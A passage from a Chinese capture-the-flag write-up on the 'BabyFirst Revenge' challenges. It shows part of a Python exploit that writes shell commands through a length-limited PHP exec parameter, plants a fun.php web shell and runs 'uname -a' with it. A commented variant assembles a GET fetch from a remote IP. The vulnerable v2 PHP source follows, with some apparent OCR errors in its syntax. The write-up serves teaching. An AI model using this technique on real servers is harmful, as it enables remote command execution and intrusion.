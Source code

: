 ```python
         'ls>>A',
         'sh A',
         'php A'
         ]
# 如果目标服务器有GET，这个也是可以打的
# build = ['>GE\',
#          '>T\ \',
#          'ls>A',
#          'rm G*',
#          'rm T*',
#          '>105\',
#          '>304\',
#          '>301\',
#          '>9>\',
#          'ls>>A']
r.get(reset)
for i in build:
    s = r.get(cmd + i)
    print '[%s]' % s.status_code, s.url
 
s = r.get(sandbox + 'fun.php?cmd=uname -a')
print 'n' + '[%s]' % s.status_code, s.url
print s.text
```

#### 运行效果

![http://p1.qhimg.com/t013370047191f9904f.png](t014cfd9d61e5c45b44.png)

****

### **挑战升级**

这篇文章有趣的地方才刚刚开始。

代码只改了一个字符，但趣味已经不在一个量级。一脸懵逼的我看了大佬们的wp后兴奋不已。

BabyFirst Revenge v2：

```python
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR'])
 
    @mkdir($sandbox)
    @chdir($sandbox)
    if (isset($_GET['cmd']) & & strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd'])
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox)
    }
    highlight_file(__FILE__)
```
